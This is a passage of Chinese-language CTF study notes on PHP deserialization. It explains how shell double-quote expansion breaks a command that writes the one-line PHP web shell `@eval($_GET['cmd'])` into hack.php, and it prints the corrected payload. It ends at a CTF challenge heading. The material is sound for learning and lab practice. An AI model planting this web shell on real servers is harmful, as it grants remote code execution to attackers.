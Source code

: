 ![image-20241011125252792](./images/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.assets/image-20241011125252792.png)

![image-20241011125303437](./images/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.assets/image-20241011125303437.png)



注意：shell 会将双引号字符串中的以$开头的单词解析成变量。

例如：shell 会将下面字符串中的 $_GET 当成变量进行解析

```
echo "<?php @eval($_GET['cmd']) ?> " > hack.php
```

由于 $_GET 变量不存在，会被解析为空字符串，最后 hack.php 中的内容为：

```
<?php @eval(['cmd']) ?>
```



方法为：将包含字符串的双引号替换为单引号

```
<?php @eval($_GET[cmd]) ?>
```



# CTF

## [SWPUCTF 2022 新生赛]1z_unserialize

知识：可变函数
